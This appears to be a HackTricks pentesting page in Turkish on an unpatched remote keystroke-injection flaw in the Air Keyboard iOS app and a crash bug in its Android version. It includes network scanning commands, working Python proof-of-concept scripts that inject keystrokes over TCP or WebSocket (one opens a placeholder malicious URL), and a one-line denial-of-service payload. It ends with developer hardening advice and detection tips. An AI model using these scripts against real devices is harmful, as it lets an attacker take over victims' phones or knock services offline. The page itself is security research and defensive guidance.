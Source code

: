 # Air Keyboard Remote Input Injection (Kimlik Doğrulaması Olmadan TCP / WebSocket Dinleyici)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

Ticari **“Air Keyboard”** uygulamasının iOS versiyonu (App Store ID 6463187929), **herhangi bir kimlik doğrulama veya kaynak doğrulaması olmadan tuş vuruşu çerçevelerini kabul eden** bir yerel ağ hizmeti sunmaktadır. Yüklenen versiyona bağlı olarak hizmet ya:

* **≤ 1.0.4**  – **port 8888** üzerinde 2 baytlık bir uzunluk başlığı bekleyen ham TCP dinleyici ve ardından bir *device-id* ve ASCII yükü.
* **≥ 1.0.5 (Haziran 2025)**  – **WebSocket** dinleyici, *aynı* portta (**8888**) **JSON** anahtarlarını ayrıştırır, örneğin `{"type":1,"text":"…"}`.

Bu nedenle, aynı Wi-Fi / alt ağdaki herhangi bir cihaz, **kurbanın telefonuna rastgele klavye girişi enjekte edebilir ve tam uzaktan etkileşim ele geçirme** gerçekleştirebilir.
Bir Android sürümü **port 55535** üzerinde dinlemektedir. Zayıf bir AES-ECB el sıkışması gerçekleştirir, ancak oluşturulmuş çöp veriler hala **OpenSSL içinde işlenmemiş bir istisna** oluşturur ve arka plan hizmetini çökertir (**DoS**).

> Güvenlik açığı **yazım tarihi itibarıyla (Temmuz 2025)** **hala yamanmamıştır** ve uygulama App Store'da mevcut olmaya devam etmektedir.

---

## 1. Hizmet Keşfi

Yerel ağı tarayın ve uygulamalar tarafından kullanılan iki sabit portu arayın:
```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
Android cihazlarda sorumlu paketi yerel olarak tanımlayabilirsiniz:
```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```
On **jailbroken iOS** üzerinde `lsof -i -nP | grep LISTEN | grep 8888` ile benzer bir şey yapabilirsiniz.

---

## 2. Protokol Detayları (iOS)

### 2.1  Eski (≤ 1.0.4) – özel ikili çerçeveler
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Açıklanan *uzunluk*, `device_id` baytını **ama** iki baytlık başlığı içermez.

### 2.2  Mevcut (≥ 1.0.5) – WebSocket Üzerinden JSON

Sürüm 1.0.5, port numarasını değiştirmeden WebSocket'lere sessizce geçiş yaptı. Minimal bir tuş vuruşu şöyle görünür:
```json
{
"type": 1,              // 1 = insert text, 2 = special key
"text": "open -a Calculator\n",
"mode": 0,
"shiftKey": false,
"selectionStart": 0,
"selectionEnd": 0
}
```
Hiçbir el sıkışma, token veya imza gerekmiyor – ilk JSON nesnesi zaten UI olayını tetikliyor.

---

## 3. Sömürü PoC

### 3.1 Hedefleme ≤ 1.0.4 (ham TCP)
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("[+] Injected", keystrokes)
```
### 3.2 Hedefleme ≥ 1.0.5 (WebSocket)
```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
"type": 1,
"text": "https://evil.example\n",
"mode": 0,
"shiftKey": False,
"selectionStart": 0,
"selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```
*Herhangi bir yazdırılabilir ASCII — satır sonları, sekmeler ve çoğu özel tuşlar dahil — gönderilebilir, bu da saldırgana fiziksel kullanıcı girişi ile aynı gücü verir: uygulamaları başlatma, anlık mesaj gönderme, kötü niyetli URL'leri açma, ayarları değiştirme vb.*

---

## 4. Android Companion – Hizmet Reddi

Android portu (55535), **hard-coded AES-128-ECB anahtarı ile şifrelenmiş 4 karakterli bir şifre** ve ardından rastgele bir nonce bekler. Ayrıştırma hataları `AES_decrypt()` fonksiyonuna yükselir ve yakalanmaz, dinleyici iş parçacığını sonlandırır. Bu nedenle, tek bir hatalı paket, meşru kullanıcıların bağlantısının kesilmesi için yeterlidir, ta ki işlem yeniden başlatılana kadar.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
---

## 5. İlgili Uygulamalar – Tekrarlayan Bir Anti-Model

Air Keyboard **izole bir durum değildir**. Diğer mobil “uzaktan klavye/fare” araçları da aynı hatayla piyasaya sürülmüştür:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78 kimlik doğrulaması yapılmamış komut yürütme ve düz metin tuş kaydı sağlar.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80 kimlik doğrulaması yapılmamış RCE & trafik dinleme.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83 varsayılan-şifre-yok, zayıf PIN brute-force ve düz metin sızıntısı.

Bu durumlar, **mobil uygulamalardaki ağ yüzeylerine yönelik sistematik bir ihmal** olduğunu vurgulamaktadır.

---

## 6. Temel Nedenler

1. Gelen çerçeveler üzerinde **kaynak / bütünlük kontrollerinin olmaması** (iOS).
2. **Kriptografik kötüye kullanım** (statik anahtar, ECB, uzunluk doğrulamasının eksikliği) ve **istisna işleme eksikliği** (Android).
3. **Kullanıcı tarafından verilen Yerel Ağ yetkisi ≠ güvenlik** – iOS, LAN trafiği için çalışma zamanı onayı ister, ancak bu uygun kimlik doğrulamanın yerini almaz.

---

## 7. Güçlendirme & Savunma Önlemleri

Geliştirici önerileri:

* Dinleyiciyi **`127.0.0.1`** adresine bağlayın ve uzaktan kontrol gerekiyorsa **mTLS** veya **Noise XX** üzerinden tünel açın.
* **Cihaz başına gizli anahtarlar türetin** (örneğin, QR kodu veya Eşleştirme PIN'i) ve girişi işlemden önce *karşılıklı* kimlik doğrulamasını zorunlu kılın.
* **Apple Network Framework**'ü *NWListener* + TLS ile ham soketler yerine benimseyin.
* Çözümlerken veya çerçeveleri çözerken **uzunluk ön ek kontrolü** ve yapılandırılmış istisna işleme uygulayın.

Mavi/Kırmızı Takım hızlı kazanımları:

* **Ağ avı:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` veya Wireshark filtresi `tcp.port == 8888`.
* **Çalışma zamanı denetimi:** Beklenmedik dinleyicileri listelemek için `socket()`/`NWConnection`'ı yakalayan Frida script.
* **iOS Uygulama Gizlilik Raporu (Ayarlar ▸ Gizlilik & Güvenlik ▸ Uygulama Gizlilik Raporu)**, LAN adresleriyle iletişim kuran uygulamaları vurgular – sahte hizmetleri tespit etmek için faydalıdır.
* **Mobil EDR'ler**, port 8888 üzerindeki düz metin TCP yüklerinde `"selectionStart"`, `"selectionEnd"` JSON anahtarları için basit Yara-L kuralları ekleyebilir.

---

## Tespit Kılavuzu (Pentesterlar)
```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
| awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```
---

## Referanslar

- [Exploit-DB 52333 – Air Keyboard iOS Uygulaması 1.0.5 Uzaktan Girdi Enjeksiyonu](https://www.exploit-db.com/exploits/52333)
- [Mobile-Hacker Blog (17 Tem 2025) – Air Keyboard iOS Uygulamasındaki Uzaktan Girdi Enjeksiyonu Açığı Hala Yamanmamış](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

{{#include ../../banners/hacktricks-training.md}}
